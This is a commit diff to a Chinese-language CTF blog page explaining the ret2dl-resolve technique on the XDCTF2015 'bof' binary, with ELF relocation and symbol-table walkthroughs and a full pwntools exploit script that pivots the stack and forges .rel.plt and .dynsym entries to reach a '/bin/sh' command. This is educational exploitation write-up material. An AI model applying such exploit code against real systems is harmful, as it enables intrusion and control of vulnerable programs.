

Before and after one commit to Windforce17/blog, an MkDocs documentation site: the page built from docs/ctf/pwn/ROP_ret2dl.md, in a window 1280 px wide and 1400 px high, scrolled down 4256 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 4886 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
finish ret2d

````diff
--- a/docs/ctf/pwn/ROP_ret2dl.md
+++ b/docs/ctf/pwn/ROP_ret2dl.md
@@ -197,7 +197,7 @@
 #define ELF32_R_TYPE(info) ((unsigned char)(info))
 #define ELF32_R_INFO(sym, type) (((sym)<<8)+(unsigned char)(type))
 ```
-使用`readelf -r bof` 可以看到这两个段的数据结构，省略了'.rel.dyn'的输出
+使用`readelf -r bof` 可以看到这两个段的数据结构，省略了`.rel.dyn`的输出
 ```
 Relocation section '.rel.plt' at offset 0x330 contains 5 entries:
  Offset     Info    Type            Sym.Value  Sym. Name
@@ -208,4 +208,118 @@
 0804a01c  00000607 R_386_JUMP_SLOT   00000000   write@GLIBC_2.0
 ```
 其中，offset就是`.got.plt`中保存的对应函数地址的地址，即*(0804a01c)=&write
-看
+看上面和`.rel.dyn`相关的两个宏，可以求解出:
+```
+ELF32_R_SYM=6
+ELF32_R_TYPE=7
+```
+也就是说Elf32_Sym[6]保存着write的符号表信息，Type为`R_386_JUMP_SLOT`。Elf32_Sym实际上就是
+`.dynsym` section，这个section的数据结构如下:
+```
+typedef struct
+{
+    Elf32_Word st_name;     // Symbol name(string table index)
+    Elf32_Addr st_value;    // Symbol value
+    Elf32_Word st_size;     // Symbol size
+    unsigned char st_info;  // Symbol type and binding
+    unsigned char st_other; // Symbol visibility under glibc>=2.2
+    Elf32_Section st_shndx; // Section index
+} Elf32_Sym;
+```
+使用`readelf -s bof`可以看到
+```
+Symbol table '.dynsym' contains 10 entries:
+   Num:    Value  Size Type    Bind   Vis      Ndx Name
+     0: 00000000     0 NOTYPE  LOCAL  DEFAULT  UND
+     1: 00000000     0 FUNC    GLOBAL DEFAULT  UND setbuf@GLIBC_2.0 (2)
+     2: 00000000     0 FUNC    GLOBAL DEFAULT  UND read@GLIBC_2.0 (2)
+     3: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
+     4: 00000000     0 FUNC    GLOBAL DEFAULT  UND strlen@GLIBC_2.0 (2)
+     5: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@GLIBC_2.0 (2)
+     6: 00000000     0 FUNC    GLOBAL DEFAULT  UND write@GLIBC_2.0 (2)
+     7: 0804a044     4 OBJECT  GLOBAL DEFAULT   26 stdout@GLIBC_2.0 (2)
+     8: 0804863c     4 OBJECT  GLOBAL DEFAULT   16 _IO_stdin_used
+     9: 0804a040     4 OBJECT  GLOBAL DEFAULT   26 stdin@GLIBC_2.0 (2
+```
+第六个就是我们的write。
+好了，总结下思路，首先，通过ROP控制RIP执行_dl_runtime_resolve(link_map, reloc_arg),其中reloc_arg是我们可控的，控制reloc_arg 使得glibc 索引到我们伪造的`.rel.dyn`项上，我们可以在bss、data等段进行伪造，其次控制伪造的`r_info`值，从而控制`.dynsym`项，`r_offset`就是我们要改写的write的地址，所以使用原本的就OK，
+我们看下`dynsym`的第六项（有更好的办法一定要告诉我啊）：
+```
+pwndbg> x /16xb 0x8048238
+0x8048238:      0x4c    0x00    0x00    0x00    0x00    0x00    0x00    0x00
+0x8048240:      0x00    0x00    0x00    0x00    0x12    0x00    0x00    0x00
+```
+可以发现`Elf32_Word st_name=0x4c`，也就是说 `.dynstr+04c`就是字符串write的地址.
+
+```
+pwndbg> x /s 0x08048278+0x4c
+0x80482c4:      "write"
+```
+然后我们就可以伪造`.st_name`，把write改成system...
+好长的ROP啊
+
+## exp
+“你猜怎么伪造`.st_name`”
+```py
+#!/usr/bin/python
+
+from pwn import *
+elf = ELF('bof')
+offset = 112
+read_plt = elf.plt['read']
+write_plt = elf.plt['write']
+
+ppp_ret = 0x08048619 # ROPgadget --binary bof --only "pop|ret"
+pop_ebp_ret = 0x0804861b
+leave_ret = 0x08048458 # ROPgadget --binary bof --only "leave|ret"
+
+stack_size = 0x800
+bss_addr = 0x0804a040 # readelf -S bof | grep ".bss"
+base_stage = bss_addr + stack_size
+
+r = process('./bof')
+
+r.recvuntil('Welcome to XDCTF2015~!\n')
+payload = 'A' * offset
+payload += p32(read_plt) # 读100个字节到base_stage
+payload += p32(ppp_ret)
+payload += p32(0)
+payload += p32(base_stage)
+payload += p32(100)
+payload += p32(pop_ebp_ret) # 把base_stage pop到ebp中
+payload += p32(base_stage)
+payload += p32(leave_ret) # mov esp, ebp ; pop ebp ;将esp指向base_stage
+r.sendline(payload)
+
+cmd = "/bin/sh"
+plt_0 = 0x08048380
+rel_plt = 0x08048330
+index_offset = (base_stage + 28) - rel_plt
+write_got = elf.got['write']
+dynsym = 0x080481d8
+dynstr = 0x08048278
+fake_sym_addr = base_stage + 36
+align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # 这里的对齐操作是因为dynsym里的Elf32_Sym结构体都是0x10字节大小
+fake_sym_addr = fake_sym_addr + align
+index_dynsym = (fake_sym_addr - dynsym) / 0x10 # 除以0x10因为Elf32_Sym结构体的大小为0x10，得到write的dynsym索引号
+r_info = (index_dynsym << 8) | 0x7
+fake_reloc = p32(write_got) + p32(r_info)
+st_name = 0x4c
+fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)
+
+payload2 = 'AAAA'
+payload2 += p32(plt_0)
+payload2 += p32(index_offset)
+payload2 += 'AAAA'
+payload2 += p32(1)
+payload2 += p32(base_stage + 80)
+payload2 += p32(len(cmd))
+payload2 += fake_reloc # (base_stage+28)的位置
+payload2 += 'B' * align
+payload2 += fake_sym # (base_stage+36)的位置
+payload2 += 'A' * (80 - len(payload2))
+payload2 += cmd + '\x00'
+payload2 += 'A' * (100 - len(payload2))
+r.sendline(payload2)
+r.interactive()
+```
````
